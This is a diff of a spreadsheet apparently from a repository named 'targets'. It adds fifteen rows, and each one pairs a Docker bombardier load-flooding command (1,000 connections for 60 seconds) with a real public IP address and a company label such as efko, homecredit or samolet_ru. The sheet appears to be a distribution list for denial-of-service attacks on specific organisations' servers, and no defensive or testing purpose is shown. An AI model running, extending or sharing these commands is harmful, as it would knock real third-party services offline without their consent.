

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
+row 72: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.129.114.94&& sleep 5; | 213.129.114.94 | efko
+row 73: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.129.114.95&& sleep 5; | 213.129.114.95 | efko
+row 74: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.239.33.178&& sleep 5; | 195.239.33.178 | efko
+row 75: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.129.114.91&& sleep 5; | 213.129.114.91 | efko
+row 76: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.129.114.92&& sleep 5; | 213.129.114.92 | efko
+row 77: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.129.115.54&& sleep 5; | 213.129.115.54 | efko
+row 78: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.129.114.93&& sleep 5; | 213.129.114.93 | efko
+row 79: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.129.114.89&& sleep 5; | 213.129.114.89 | efko
+row 80: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.129.114.95&& sleep 5; | 213.129.114.95 | efko
+row 81: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.129.115.50&& sleep 5; | 213.129.115.50 | efko
+row 82: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.129.114.88&& sleep 5; | 213.129.114.88 | efko
+row 83: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.239.33.180&& sleep 5; | 195.239.33.180 | efko
+row 84: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.43.90.110&& sleep 5; | 195.43.90.110 | homecredit
+row 85: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.154.197.231&& sleep 5; | 178.154.197.231 | samolet_ru
+row 86: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 82.202.246.121&& sleep 5; | 82.202.246.121 | samolet_ru
```
